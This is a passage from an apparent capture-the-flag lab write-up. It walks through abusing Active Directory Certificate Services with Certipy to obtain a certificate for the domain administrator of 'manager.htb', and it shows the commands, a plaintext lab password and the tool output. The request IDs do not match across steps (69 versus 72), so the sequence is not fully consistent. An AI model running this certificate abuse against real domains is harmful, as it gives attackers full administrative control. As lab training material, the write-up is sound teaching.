 Now our user is added, Let's add **SubCA** template to CA by using **-enable-template** parameter.

```
➜  manager $ certipy ca -ca 'manager-DC01-CA' -enable-template SubCA -username 'raven@manager.htb' -password 'R4v3nBe5tD3veloP3r!123'
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Successfully enabled 'SubCA' on 'manager-DC01-CA'
```

Now we need to request for Certificate based on SubCA template. This request will be denied, but we will save the private key and note down the request ID.

```
➜  manager $ certipy req -username 'raven@manager.htb' -password 'R4v3nBe5tD3veloP3r!123' -ca manager-DC01-CA -target manager.htb -template SubCA -upn administrator@manager.htb 
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[-] Got error while trying to request certificate: code: 0x80094012 - CERTSRV_E_TEMPLATE_DENIED - The permissions on the certificate template do not allow the current user to enroll for this type of certificate.
[*] Request ID is 69
Would you like to save the private key? (y/N) y
[*] Saved private key to 69.key
[-] Failed to request certificate
```

Now the Key is stored in 69.key file. With our `Manage CA` and `Manage Certificates`, we can then issue the failed certificate request with the `ca` command and the `-issue-request <request ID>` parameter.

```
➜  manager $ certipy ca -ca 'manager-DC01-CA' -issue-request 72 -username 'raven@manager.htb' -password 'R4v3nBe5tD3veloP3r!123'
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Successfully issued certificate
```

And finally, we can retrieve the issued certificate with the `req` command and the `-retrieve <request ID>` parameter.

```
➜  manager $ certipy req -username raven@manager.htb -password 'R4v3nBe5tD3veloP3r!123' -ca manager-DC01-CA -target manager.htb -retrieve 72
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Rerieving certificate with ID 72
[*] Successfully retrieved certificate
[*] Got certificate with UPN 'administrator@manager.htb'
[*] Certificate has no object SID
[*] Loaded private key from '72.key'
[*] Saved certificate and private key to 'administrator.pfx'
```
